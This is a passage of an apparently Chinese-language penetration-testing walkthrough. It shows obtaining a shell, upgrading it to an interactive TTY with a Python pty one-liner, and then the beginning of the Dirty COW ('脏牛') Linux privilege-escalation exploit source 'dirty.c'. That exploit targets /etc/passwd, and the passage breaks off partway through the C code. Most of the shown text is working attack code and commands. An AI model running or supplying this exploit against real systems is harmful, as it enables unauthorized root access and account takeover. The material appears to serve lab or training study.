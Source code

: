 - 拿到shell

```
sysinfo
shell
python -c 'import pty;pty.spawn("/bin/bash")'  
```

![image-20210926210622943](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109262106128.png)

>  调用蚁剑直接上传也行

## 脏牛提权

- 将shell转换为交互式的tty

```sh
python -c 'import pty;pty.spawn("/bin/bash")'  
```

![image-20210926151110443](https://xiuxiu-1306082599.cos.ap-beijing.myqcloud.com/xiao/202109261511565.png)

- dirty.c文件

```c
#include <fcntl.h>
#include <pthread.h>
#include <string.h>
#include <stdio.h>
#include <stdint.h>
#include <sys/mman.h>
#include <sys/types.h>
#include <sys/stat.h>
#include <sys/wait.h>
#include <sys/ptrace.h>
#include <stdlib.h>
#include <unistd.h>
#include <crypt.h>

const char *filename = "/etc/passwd";
const char *backup_filename = "/tmp/passwd.bak";
const char *salt = "firefart";

int f;
void *map;
pid_t pid;
pthread_t pth;
struct stat st;

struct Userinfo
{
  char *username;
  char *hash;
  int user_id;
  int group_id;
  char *info;
  char *home_dir;
  char *shell;
};

char *generate_password_hash(char *plaintext_pw)
{
  return crypt(plaintext_pw, salt);
}

char *generate_passwd_line(struct Userinfo u)
```